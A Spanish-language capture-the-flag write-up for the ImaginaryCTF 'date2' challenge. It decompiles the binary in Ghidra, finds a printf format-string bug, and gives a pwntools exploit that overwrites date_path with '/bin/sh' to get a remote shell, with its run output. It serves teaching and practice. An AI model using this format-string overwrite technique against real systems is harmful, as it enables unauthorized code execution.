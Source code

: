 ```yaml
---
layout: post
title: ImaginaryCTF date2 - GOT overwrite
author: c4rta
date: 2022-07-30
categories: [Explotacion binaria]
tags: [GOT overwrite, format string]
cover: /imgs/imaginaryCTF-date2/waifu.jpg
---
```

En este articulo resolveremos un ejercicio de explotacion binaria de la pagina ImaginaryCTF donde tenemos de sobreescribir la direccion de GOT de printf
{:.lead}

## Analizando el binario con Ghidra

Este ejercicio es muy similar al enterior del post de GOT overwrite y para practicar esta perfecto, solo que ahora no podemos ver el codigo fuente del binario, asi que lo que nos toca es analizarlo con ghidra

Lo primero que vamos a hacer es meter el binario a Ghidra la cual pueden descargar desde su repo oficial

```
https://github.com/NationalSecurityAgency/ghidra/releases
```
Despues en la seccion llamada ```Symbool tree``` desplegaremos la carpeta de ```functions``` y le damos click en main, como se ve en la imagen

![](/imgs/imaginaryCTF-date2/ghidra1.png)

Esto nos arrojara del lado derecho de ghidra el codigo que trato de decompilar donde vemos todo esto:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  char local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("What\'s today\'s date?");
  fgets(local_118,0x100,stdin);
  printf(local_118);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Viendo la declaracion de variables en la parte de arriba, osea estas: 

```
long in_FS_OFFSET;
char local_118 [264];
long local_10;
```
Vemos una en particular que se declara como ```char local_118 [264];```, esto es el buffer asi que vamos a renombrar la variable ```local_118``` a ```buffer```, ahora nuestro codigo se ve asi:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  char buffer [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("What\'s today\'s date?");
  fgets(buffer,0x100,stdin);
  printf(buffer);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Acortanto mas el codigo para mostrar lo que nos interesa queda el codigo asi:

```c
  puts("What\'s today\'s date?");
  fgets(buffer,0x100,stdin);
  printf(buffer);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
```
Esto es sencillo de analizar lo que hace el binario es primeramente con ```puts``` mostrar el mensaje de ```What\'s today\'s date?```, despues con ```fgets(buffer,0x100,stdin);``` recibe un input que se guardara en ```buffer``` donde el valor maximo que podemos guardar es ```0x100```, esto pasandolo de hexadecimal a decimal nos da ```256```, despues hay dos ```puts``` que imprimen unas cadenas (nada relevante), y finalmente la funcion ```system``` manda a llamar a lo que tiene ```date_path```, y si en Ghidra le damos doble click sobre ```date_path``` vemos lo siguiente

![](/imgs/imaginaryCTF-date2/ghidra2.png)

Aqui ya esta potente la cosa, por que se esta mandando a llamar al binario ```date``` desde la funcion ```system``` y se sabe que se esta llamando el binario date ya que la ruta es ```/usr/bin/date```, asi que lo que vamos a hacer es sobreescribir el valor GOT de ```date_path``` por ```/bin/sh``` y como se esta usando la funcion ```system``` nos debe de ejecutar una sh  

### Calculando el offset el buffer

De igual manera que el ejercicio anterior de GOT tenemos de encontrar el offset del buffer a travez de format string, asi que le pasaremos el binario algunas A y algunos format string ```AAAAAAAA %p %p %p %p %p %p %p %p```, cuando lo ejecutemos nos muestra esto

![](/imgs/imaginaryCTF-date2/vuln1.png)

Si empezamos a contar desde ```0x7ffff7dfda63``` hasta donde empiezan nuestras "A" que es donde esta seleccionado en la imagen nos da como resultado 6, asi que ese es el offset el buffer

## Ejecutando el exploit

EL exploit usado es similar al del post anterior de GOT, lo que cambia es que nos estamos conectando remotamente a eth007.me.

```python

from pwn import *

context.binary = elf = ELF("./vuln")
r = remote("eth007.me", 42042)
r.sendline(fmtstr_payload(6, writes={elf.sym.date_path: u64(b"/bin/sh\x00")}))
r.interactive()
```
Si lo ejecutamos y listamos el contenido podemos ver la flag

```
[+] Opening connection to eth007.me on port 42069: Done
[*] '/home/omarh/Escritorio/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
no smh you are wrong the date is 
$ ls
flag.txt
```
Eso ha sido todo, gracias por leer ❤